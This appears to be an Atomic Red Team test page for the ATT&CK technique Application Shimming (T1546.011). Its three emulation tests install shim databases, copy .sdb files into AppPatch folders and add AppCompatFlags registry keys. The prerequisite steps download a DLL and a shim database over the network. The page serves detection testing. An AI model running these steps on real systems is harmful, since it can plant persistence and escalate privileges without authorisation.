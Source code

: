 # T1546.011 - Event Triggered Execution: Application Shimming
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/011)
<blockquote>

Adversaries may establish persistence and/or elevate privileges by executing malicious content triggered by application shims. The Microsoft Windows Application Compatibility Infrastructure/Framework (Application Shim) was created to allow for backward compatibility of software as the operating system codebase changes over time. For example, the application shimming feature allows developers to apply fixes to applications (without rewriting code) that were created for Windows XP so that it will work with Windows 10. (Citation: Elastic Process Injection July 2017)

Within the framework, shims are created to act as a buffer between the program (or more specifically, the Import Address Table) and the Windows OS. When a program is executed, the shim cache is referenced to determine if the program requires the use of the shim database (.sdb). If so, the shim database uses hooking to redirect the code as necessary in order to communicate with the OS. 

A list of all shims currently installed by the default Windows installer (sdbinst.exe) is kept in:

* <code>%WINDIR%\AppPatch\sysmain.sdb</code> and
* <code>hklm\software\microsoft\windows nt\currentversion\appcompatflags\installedsdb</code>

Custom databases are stored in:

* <code>%WINDIR%\AppPatch\custom & %WINDIR%\AppPatch\AppPatch64\Custom</code> and
* <code>hklm\software\microsoft\windows nt\currentversion\appcompatflags\custom</code>

To keep shims secure, Windows designed them to run in user mode so they cannot modify the kernel and you must have administrator privileges to install a shim. However, certain shims can be used to [Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002) (UAC and RedirectEXE), inject DLLs into processes (InjectDLL), disable Data Execution Prevention (DisableNX) and Structure Exception Handling (DisableSEH), and intercept memory addresses (GetProcAddress).

Utilizing these shims may allow an adversary to perform several malicious acts such as elevate privileges, install backdoors, disable defenses like Windows Defender, etc. (Citation: FireEye Application Shimming) Shims can also be abused to establish persistence by continuously being invoked by affected programs.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Application Shim Installation](#atomic-test-1---application-shim-installation)

- [Atomic Test #2 - New shim database files created in the default shim database directory](#atomic-test-2---new-shim-database-files-created-in-the-default-shim-database-directory)

- [Atomic Test #3 - Registry key creation and/or modification events for SDB](#atomic-test-3---registry-key-creation-andor-modification-events-for-sdb)


<br/>

## Atomic Test #1 - Application Shim Installation
Install a shim database. This technique is used for privilege escalation and bypassing user access control.
Upon execution, "Installation of AtomicShim complete." will be displayed. To verify the shim behavior, run 
the AtomicTest.exe from the <PathToAtomicsFolder>\\T1546.011\\bin directory. You should see a message box appear
with "Atomic Shim DLL Test!" as defined in the AtomicTest.dll. To better understand what is happening, review
the source code files is the <PathToAtomicsFolder>\\T1546.011\\src directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 9ab27e22-ee62-4211-962b-d36d9a0e6a18





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_path | Path to the shim database file | string | PathToAtomicsFolder&#92;T1546.011&#92;bin&#92;AtomicShimx86.sdb|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
sdbinst.exe "#{file_path}"
```

#### Cleanup Commands:
```cmd
sdbinst.exe -u "#{file_path}" >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Shim database file must exist on disk at specified location (#{file_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{file_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory (split-path "#{file_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1546.011/bin/AtomicShimx86.sdb" -OutFile "#{file_path}"
```
##### Description: AtomicTest.dll must exist at c:\Tools\AtomicTest.dll
##### Check Prereq Commands:
```powershell
if (Test-Path c:\Tools\AtomicTest.dll) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path c:\Tools\AtomicTest.dll) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1546.011/bin/AtomicTest.dll" -OutFile c:\Tools\AtomicTest.dll
```




<br/>
<br/>

## Atomic Test #2 - New shim database files created in the default shim database directory
Upon execution, check the "C:\Windows\apppatch\Custom\" folder for the new shim database

https://www.fireeye.com/blog/threat-research/2017/05/fin7-shim-databases-persistence.html

**Supported Platforms:** Windows


**auto_generated_guid:** aefd6866-d753-431f-a7a4-215ca7e3f13d






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Copy-Item "$PathToAtomicsFolder\T1546.011\bin\T1546.011CompatDatabase.sdb" C:\Windows\apppatch\Custom\T1546.011CompatDatabase.sdb
Copy-Item "$PathToAtomicsFolder\T1546.011\bin\T1546.011CompatDatabase.sdb" C:\Windows\apppatch\Custom\Custom64\T1546.011CompatDatabase.sdb
```

#### Cleanup Commands:
```powershell
Remove-Item C:\Windows\apppatch\Custom\T1546.011CompatDatabase.sdb -ErrorAction Ignore
Remove-Item C:\Windows\apppatch\Custom\Custom64\T1546.011CompatDatabase.sdb -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Registry key creation and/or modification events for SDB
Create registry keys in locations where fin7 typically places SDB patches. Upon execution, output will be displayed describing
the registry keys that were created. These keys can also be viewed using the Registry Editor.

https://www.fireeye.com/blog/threat-research/2017/05/fin7-shim-databases-persistence.html

**Supported Platforms:** Windows


**auto_generated_guid:** 9b6a06f9-ab5e-4e8d-8289-1df4289db02f






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-ItemProperty -Path HKLM:"\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Custom" -Name "AtomicRedTeamT1546.011" -Value "AtomicRedTeamT1546.011"
New-ItemProperty -Path HKLM:"\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\InstalledSDB" -Name "AtomicRedTeamT1546.011" -Value "AtomicRedTeamT1546.011"
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path HKLM:"\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Custom" -Name "AtomicRedTeamT1546.011" -ErrorAction Ignore
Remove-ItemProperty -Path HKLM:"\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\InstalledSDB" -Name "AtomicRedTeamT1546.011" -ErrorAction Ignore
```





<br/>
